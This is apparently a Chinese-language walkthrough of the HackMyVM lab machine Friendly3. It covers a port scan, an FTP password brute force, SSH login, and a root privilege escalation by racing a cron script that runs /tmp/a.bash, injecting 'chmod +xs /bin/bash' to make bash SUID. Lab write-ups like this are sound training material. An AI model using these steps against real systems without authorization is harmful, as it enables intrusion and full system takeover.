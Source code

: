 # Friendly3

2025.03.14 https://hackmyvm.eu/machines/machine.php?vm=Friendly3

[video](https://www.bilibili.com/video/BV1fYQzY5EeU/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 不可匿名登陆，访问 80 web 首页，发现 juan 向 ftp 上传了文件，web 目录扫描什么都没有。

根据 juan 爆破一下 ftp，得到登陆密码 alexis ，枚举后，文件夹 fold5 fold8 和 文件 fole32 file80 有内容，全部下载，但是毛都没有。

尝试使用得到的凭据，登陆 ssh 成功，先拿到 user flag：

```
juan@friendly3:~$ cat user.txt
cb40b159c8086733d57280de3f97de30
```

枚举发现 /opt/check_for_install.sh 看其内容可能是定时执行的，上传 pspy 进行探测，发现这个脚本每分钟执行一次：

```
/usr/bin/curl "http://127.0.0.1/9842734723948024.bash" > /tmp/a.bash
chmod +x /tmp/a.bash
chmod +r /tmp/a.bash
chmod +w /tmp/a.bash
/bin/bash /tmp/a.bash
rm -rf /tmp/a.bash
```

会从本地 127.0.0.1 下载脚本 9842734723948024.bash 这里没有修改这个脚本的权限，但是可以利用条件竞争事先建立好一个 /tmp/a.bash 脚本循环写入提权命令，在 59 秒时执行：

```
for i in {1..10000}; do echo 'chmod +xs /bin/bash' >> /tmp/a.bash ; done
```

最终 bash 变成 suid 程序，拿到最终 root flag:

```
bash-5.2# cat root.txt
eb9748b67f25e6bd202e5fa25f534d51
```
